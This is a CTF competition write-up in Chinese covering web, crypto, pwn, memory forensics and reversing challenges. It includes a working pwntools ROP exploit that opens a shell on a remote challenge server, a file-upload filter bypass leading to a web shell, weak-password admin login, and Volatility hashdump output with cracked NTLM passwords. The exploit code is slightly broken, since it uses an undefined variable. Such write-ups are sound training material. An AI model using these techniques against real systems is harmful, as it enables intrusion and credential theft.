HXB writeup
WEB
题目名字不重要反正题挺简单的
直接传参file=phpinfo，flag被写到环境变量

NewWebsite
扫描目录扫到/admin

访问后弱密码admin/admin登录
发现有?r=manageinfo页面可以上传文件，但文件名被限制，传php3即可绕过，然后antsword连接

CPYPTO
古典美++
题目说是维吉尼亚密码，直接爆破密钥即可

pwn
pwn_printf
栈溢出，通过puts泄露函数地址，计算偏移量得到system函数地址来get shell
exp如下：
from pwn import *
context.log_level = 'debug'
p = remote('47.111.104.169',56706)
elf = ELF('./pwn_printf')
puts_plt = elf.symbols['puts']
puts_got = elf.got['puts']
pop_rdi_ret = 0x0000000000401213
pop_rsi_ret = 0x000401211
ret_addr = 0x4007C6
scanf = 0x004006A0
p.recvuntil("interesting")
for i in range(16):
p.sendline("32")
payload1 = 'a'*0x8 + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(pop_rdi_ret) + p64(0x40) + p64(ret_addr)
p.sendline(payload1)
p.recvline()
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
print (hex(puts_addr))
payload2 = 'a'*0x8 + p64(pop_rdi_ret) + p64(0x0401D99) +p64(pop_rsi_ret) +p64(0x06030A0)+p64(0)+ p64(scanf) + p64(pop_rdi_ret) + p64(0x20)+ p64(ret_addr+1)
p.recv()
str1 = int(b'/bin'[::-1].encode('hex'),16)
str2 = int(b'/sh\x00'[::-1].encode('hex'),16)
p.sendline(payload2)
sleep(0.5)
p.sendline(str(str2))
sleep(0.5)
payload3 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x0401D99) + p64(pop_rsi_ret) + p64(0x06030A4) + p64(0) + p64(scanf) + p64(ret_addr)
p.send(payload3)
p.sendline(str(n2))
payload4 = 'a' * 0x8 + p64(pop_rdi_ret) + p64(0x06030A0) + p64(puts_addr-0x2a300)
sleep(0.5)
p.sendline(payload4)
p.interactive()

MISC
颜文字之谜
通过流量分析可以导出index-demo.html 在源码中发现颜文字

分析流量包，导出index文件，发现存在多余的长短不一的空格和base64加密过的颜文字，感觉有隐写 
用stegsnow看一下

那么尝试把文件里面隐藏的base64部分利用起来
网上找个base64隐写脚本
b64chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'
with open('C:/Users/kai/Desktop/base.txt', 'rb') as f:
bin_str = ''
for line in f.readlines():
stegb64 = ''.join(line.split())
rowb64 = ''.join(stegb64.decode('base64').encode('base64').split())
offset = abs(b64chars.index(stegb64.replace('=','')[-1])-b64chars.index(rowb64.replace('=','')[-1]))
equalnum = stegb64.count('=') #no equalnum no offset
if equalnum:
bin_str += bin(offset)[2:].zfill(equalnum * 2)
print ''.join([chr(int(bin_str[i:i + 8], 2)) for i in xrange(0, len(bin_str), 8)])
结果是key:"lorrie"
解码看看 
flag头和尾是对的，乱码感觉像是编码问题，我们把它导出为16进制试试
a=`stegsnow -p "lorrie" index-demo.html `
echo $a | perl -ne 'printf"%x", ord for split //'
得到的结果放文件里，再用010导入看看
默认的ascii编码下依旧是乱码 
我们在 view -> character setting 里面把编码换成gbk或者utf试试
然后发现gbk下的编码能显示正常的字符，我们复制到txt里 
发现是 ←_← 和 →_→ 构成的颜文字
有可能是二进制，也有可能是摩斯电码 经队友提醒，应该是国际电报码
那我们把 →_→ 转成 - ，把 ←_← 转成 · ，拿去解码试试

成功拿到flag
passwd
是一道内存取证题，题目要求我们去拿到当前用户的密码
python vol.py -f ./my_mem/passwd.raw --profile=Win7SP1x86_23418 hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: CTF:1000:aad3b435b51404eeaad3b435b51404ee:0a640404b5c386ab12092587fe19cd02:::
有个叫做CTF的账号，估计就是当前用户了
CTF密码ntlm查询出来是qwer1234，然后MD5就是flag
虚实之间
看上去是明文攻击，但是flag.txt是强加密的，估计明文攻击无效

干脆字典爆出压缩包密码
123%asd!O
然后栅栏密码解码得到flag
隐藏的秘密
查看进程，发现notepad.exe，pid为2440，不过内容是乱码的，估计存在编码问题，那我们干脆把进程导出
python vol.py -f ./my_mem/hide.vmem --profile=Win2003SP1x86 memdump -p 2440 -D ./my_mem/out/hxb
用diskgenius打开导出的dmp文件可以看到

python vol.py -f ./my_mem/hide.vmem --profile=Win2003SP1x86 printkey -K "SAM\Domains\Account\Users\Names"
于是导出用户名和密码，批量解NTLM，最后尝试密码为NIAIWOMA的账户和密码MD5
是flag
再看一下日志
python vol.py -f ./my_mem/hide.vmem --profile=Win2003SP1x86 evtlogs -D ./my_mem/out/hxb
python vol.py -f ./my_mem/hide.vmem --profile=Win2003SP1x86 timeliner > ./my_mem/out/hxb
发现这个电脑权限都是写在用户组里面的，常规用户应该都是S-1-5-18这个用户组的
但是看不到具体是哪些用户进行的操作，是我太菜了
复现的时候发现 SAM\Domains\Account\Users\Names 这个注册表目录下存在所有用户，查看用户的键值，可以发现存在一个注册表最后修改的时间


查看几个用户，发现他们的修改时间都在 14:02 这个时间 而整个表的最后修改时间是在 14:07 之后，所以只需要把 14:07 修改注册表的用户找出来就行了，搓个脚本
# coding=utf-8
import os
hide_mem = "../my_mem/hide.vmem"
payload = 'python ../vol.py -f ../my_mem/hide.vmem --profile=Win2003SP1x86 printkey -K "SAM\\Domains\\Account\\Users\\Names\\{}"'
# print(payload)
# list = os.system("ls ../my_mem/")
user_list = open("./user_list.txt", "r").read().split()
# print(user_list)
# test = os.system(payload.format(user_list[0]))
# print(payload.format(user_list[0]))
# print(type("14:02:09"))
for i in user_list:
test = os.popen(payload.format(i)).readlines()
output = "".join(test)
# print(output)
if "14:02:09" not in output:
print(i)
文件路径需要根据具体情况进行修改 
十几分钟大概可以出来
RE
easy_c++
简单异或直接脚本跑
a="7d21e<e3<:3;9;ji t r#w\"$*{*+*$|,"
b=""
for i in range(len(a)):
b+=chr(ord(a[i])^i)
print(b)
easyre
动态调试，一位一位爆出来
ReMe
import hashlib
list = [
'e5438e78ec1de10a2693f9cffb930d23',
'08e8e8855af8ea652df54845d21b9d67',
'a905095f0d801abd5865d649a646b397',
'bac8510b0902185146c838cdf8ead8e0',
'f26f009a6dc171e0ca7a4a770fecd326',
'cffd0b9d37e7187483dc8dd19f4a8fa8',
'4cb467175ab6763a9867b9ed694a2780',
'8e50684ac9ef90dfdc6b2e75f2e23741',
'cffd0b9d37e7187483dc8dd19f4a8fa8',
'fd311e9877c3db59027597352999e91f',
'49733de19d912d4ad559736b1ae418a7',
'7fb523b42413495cc4e610456d1f1c84',
'8e50684ac9ef90dfdc6b2e75f2e23741',
'acb465dc618e6754de2193bf0410aafe',
'bc52c927138231e29e0b05419e741902',
'515b7eceeb8f22b53575afec4123e878',
'451660d67c64da6de6fadc66079e1d8a',
'8e50684ac9ef90dfdc6b2e75f2e23741',
'fe86104ce1853cb140b7ec0412d93837',
'acb465dc618e6754de2193bf0410aafe',
'c2bab7ea31577b955e2c2cac680fb2f4',
'8e50684ac9ef90dfdc6b2e75f2e23741',
'f077b3a47c09b44d7077877a5aff3699',
'620741f57e7fafe43216d6aa51666f1d',
'9e3b206e50925792c3234036de6a25ab',
'49733de19d912d4ad559736b1ae418a7',
'874992ac91866ce1430687aa9f7121fc'
]
def decode(n):
result = []
while n != 1:
if n%2:
n=n*3+1
else:
n=n//2
result.append(n)
return result
if __name__ == "__main__":
for i in range(33,128):
result = decode(i)
string = ''
for x in range(len(result)):
string += str(result[x])
string += str(result[(len(result) - x - 1)])
md5 = hashlib.md5()
md5.update(string.encode())
md5 = md5.hexdigest()
for line in range(27):
if md5 == list[line]:
print line,'->',chr(i)
然后按顺序排序MD5即可